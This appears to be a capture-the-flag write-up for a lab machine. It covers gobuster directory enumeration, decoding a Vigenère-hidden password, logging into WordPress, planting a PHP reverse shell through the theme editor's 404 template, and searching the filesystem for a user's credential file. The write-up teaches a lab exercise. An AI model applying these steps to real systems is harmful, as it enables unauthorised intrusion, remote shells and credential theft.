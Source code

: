 ## Directory Enumeration
```sh
gobuster dir -u http://10.10.42.81/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -o directory.txt
/wordpress           
/hackathons          
```

- Lets try with `/hackathons`!
- I Tried my web_commentScrapper
```sh
python3 /home/bc-here/CTF/THM/web_comment_extractor.py
Enter the website URL: http://10.10.42.81/hackathons
Comments found:


Dvc W@iyur@123
KeepGoing

```

- Lets try to decode this string.
- If we go to the webpage its show us `Damn how much I hate the smell of Vinegar :/ !!! `
    - It seems like it is `vigenere cipher decode`
    - Yes! it is . The Decode key is `keepGoing`

- `Dvc W@iyur@123` -> `Try H@ckme@123`

**We found the username:`elyana` password:`H@ckme@123`**
- I tried ssh login and failed. 

## Wordperss Login
- `http://10.10.42.81/wordpress/wp-login.php/`  I tried it and it requires uname and password
- I successfully get into the wordpress account.

### PHP reverse-shell
- Go to the link `http://10.10.42.81/wordpress/wp-admin/theme-editor.php`
- Chose 404 templete php
- Add your reverse-shell
- Change the ip to your openvpn Ip
- Save it and go to the link `10.10.42.81/wordpress/wp-content/themes/twentytwenty/404.php`
Yup!!! We get the shell!

## Getting UserFlag
```sh
$ cd elyana
$ ls
hint.txt
user.txt
$ cat user.txt
cat: user.txt: Permission denied
$ cat hint.txt
Elyana's user password is hidden in the system. Find it ;)
$ find / -user elyana -type f 2>/dev/null
/home/elyana/user.txt
/home/elyana/.bash_logout
/home/elyana/hint.txt
/home/elyana/.bash_history
/home/elyana/.profile
/home/elyana/.sudo_as_admin_successful
/home/elyana/.bashrc
/etc/mysql/conf.d/private.txt
$ cat /etc/mysql/conf.d/private.txt
user: elyana
```